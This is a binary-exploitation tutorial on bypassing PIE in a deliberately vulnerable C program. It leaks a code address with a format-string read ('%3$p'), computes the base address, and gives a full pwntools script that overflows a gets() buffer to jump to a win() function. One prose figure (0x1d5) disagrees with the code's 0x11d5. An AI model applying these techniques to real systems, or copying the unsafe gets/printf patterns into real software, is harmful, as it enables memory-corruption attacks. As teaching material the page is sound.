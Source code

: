 ```yaml
---
description: Using format string
---
```


# PIE Bypass

## The Source

{% file src="../../.gitbook/assets/pie-fmtstr.zip" caption="PIE + Format String - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    char buffer[20];

    printf("What's your name?\n");
    gets(buffer);
    
    printf("Nice to meet you ");
    printf(buffer);
    printf("\n");

    puts("What's your message?");

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Unlike last time, we don't get given a function. We'll have to leak it with format strings.

## Analysis

```text
$ ./vuln-32 

What's your name?
%p
Nice to meet you 0xf7f6d080
What's your message?
hello
```

Everything's as we expect.

## Exploitation

### Setup

As last time, first we set everything up.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

### PIE Leak

Now we just need a leak. Let's try a few offsets.

```text
$ ./vuln-32 
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7eee080 (nil) 0x565d31d5 0xf7eb13fc 0x1
```

3rd one looks like a binary address, let's check the difference between the 3rd leak and the base address in radare2. Set a breakpoint somewhere after the format string leak \(doesn't really matter where\).

```text
$ r2 -d -A vuln-32 

Process with PID 5548 started...
= attach 5548 5548
bin.baddr 0x565ef000
0x565f01c9]> db 0x565f0234
[0x565f01c9]> dc
What's your name?
%3$p
Nice to meet you 0x565f01d5
```

We can see the base address is `0x565ef000` and the leaked value is `0x565f01d5`. Therefore, subtracting `0x1d5` from the leaked address should give us the binary. Let's leak the value and get the base address.

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}') # not required, but a nice check
```

Now we just need to send the exploit payload.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

print(p.clean().decode())
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

print(p.clean().decode())
```

## 64-bit

Same deal, just 64-bit. Try it out :\)

{% file src="../../.gitbook/assets/pie-fmtstr-64.zip" caption="PIE + Format String - 64-bit" %}



